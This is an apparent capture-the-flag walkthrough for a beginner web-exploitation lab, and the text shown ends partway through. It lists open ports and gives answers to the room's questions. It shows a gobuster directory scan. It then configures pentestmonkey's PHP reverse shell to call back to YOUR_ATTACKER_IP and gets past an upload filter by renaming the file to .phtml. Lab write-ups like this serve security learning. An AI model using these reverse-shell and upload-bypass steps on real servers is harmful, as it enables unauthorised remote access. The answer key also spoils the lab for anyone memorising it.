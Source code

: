 **🎯 Open Ports:**
- **22/tcp** - SSH OpenSSH 7.6p1
- **80/tcp** - HTTP Apache httpd 2.4.29

**Q2: What version of Apache is running?**  
**Answer:** `2.4.29`

**Q3: What service is running on port 22?**  
**Answer:** `ssh`

### 🕸️ Directory Enumeration
```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/seclists/Discovery/Web-Content/big.txt -o gobuster_results.txt -q
```

**Q4: Find directories on the web server using GoBuster**

**Q5: What is the hidden directory?**  
**Answer:** `/panel/`

## 🐚 Task 3: Getting a Shell

### 🔍 Web Application Analysis
1. **Navigate to** `http://<TARGET_IP>`
2. **Inspect source code** (Ctrl+U) for valuable information
3. **Explore discovered directory** `/panel/`

### 📤 File Upload Discovery
**🎯 Key Finding:** File upload functionality at `/panel/`

### 🔄 PHP Reverse Shell Setup

#### 📥 Download Reverse Shell
```bash
# Clone pentestmonkey's PHP reverse shell
git clone https://github.com/pentestmonkey/php-reverse-shell
```

#### ⚙️ Configure the Shell
```bash
# Edit the script
nano php-reverse-shell.php

# Modify these variables:
$ip = 'YOUR_ATTACKER_IP';
$port = 1234;  # Your listening port
```

### 🚫 Upload Bypass Technique
**❌ Initial upload fails** - `.php` extension blocked

**✅ Bypass method:**
```bash
# Rename file to bypass filter
mv php-reverse-shell.php php-reverse-shell.phtml
```
